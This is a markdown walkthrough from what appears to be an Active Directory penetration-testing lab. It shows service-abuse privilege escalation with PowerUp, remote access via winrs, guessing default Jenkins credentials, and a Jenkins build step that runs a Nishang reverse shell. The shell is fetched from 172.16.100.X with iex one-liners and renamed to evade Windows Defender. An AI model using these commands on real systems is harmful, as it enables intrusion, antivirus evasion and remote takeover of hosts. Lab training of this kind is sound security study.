

# 🆙 Elevate Privileges

For this path we'll use Powerup from PowerSploit module to check for any privilege escalation path. But we could also use WinPEAS.

```
. C:\AD\Tools\PowerUp.ps1
Invoke-AllChecks
```

<figure><figcaption><p>This is a snip</p></figcaption></figure>

We quickly see the SeviceName is AbyssWebServer:

<figure><figcaption></figcaption></figure>

With this information, we can use the abuse function for Invoke-ServiceAbuse and add our current domain user to the local Administrators group ->

```
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student613' -Verbose
```

<figure><figcaption></figcaption></figure>

Now we are part of the local administrator group. If we just logoff and logon again, and we have local administrator privileges.

Next, a good thing to do could be to identify a machine in the domain where the user student613 has local administrative access. For this we can use `Find-PSRemotingLocalAdminAccess.ps1`

<figure><figcaption></figcaption></figure>

So we see that we have Admin access on the dcorp-adminsrv and on the student machine. We can connect to dcorp-adminsrv using winrs as the student user

```
winrs -r:dcorp-adminsrv cmd 
set username 
set computername
```

<figure><figcaption></figcaption></figure>

* `winrs`: Stands for Windows Remote Shell, a command-line tool that allows you to execute commands on a remote machine.
* `-r:dcorp-adminsrv`: Specifies the remote machine to connect to. In this case, `dcorp-adminsrv`.
* `cmd`: Launches the command prompt (`cmd.exe`) on the remote machine.

Knowing all of this; let's try to have fun with a jenkins server without admin access. To do so, we need to have privileges to Configure builds

We start by going to our Jenkins “People” page:

<figure><figcaption><p>we can see the users present on the Jenkins instance</p></figcaption></figure>

It's good to know that Jenkins does not have password policies, so admin:admin of felix:felix could be a valid set of credentials

<figure><figcaption></figcaption></figure>

After fooling around we manage to get an access via the builduser user, he can Configure builds and Add Build Steps which will help us in executing commands.

To get our reverse shell we are going to use a slightly modified version of Invoke-PowerShellTcp from Nishang. We renamed the function InvokePowerShellTcp to Power in the script to bypass Windows Defender.

Nishang: [https://github.com/samratashok/nishang/tree/master](https://github.com/samratashok/nishang/tree/master)

We then go in the following path to create and execute a batch command ->

<figure><figcaption></figcaption></figure>

> If using Invoke-PowerShellTcp, make sure to include the function call in the script Power -Reverse - IPAddress 172.16.100.X -Port 443 or append it at the end of the command in Jenkins. Please note that you may always like to rename the function name to something else to avoid detection.
>
> powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443
>
> or
>
> powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.X -Port 443\
>

<figure><figcaption></figcaption></figure>

We then launch our hfs server (could work with python server, upload the invoke tcp file in the hfs directory and then build our project to trigger the script and create a reverse shell

<figure><figcaption></figcaption></figure>

```
powershell.exe iex (iwr http://172.16.100.13/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.13 -Port 443 
```
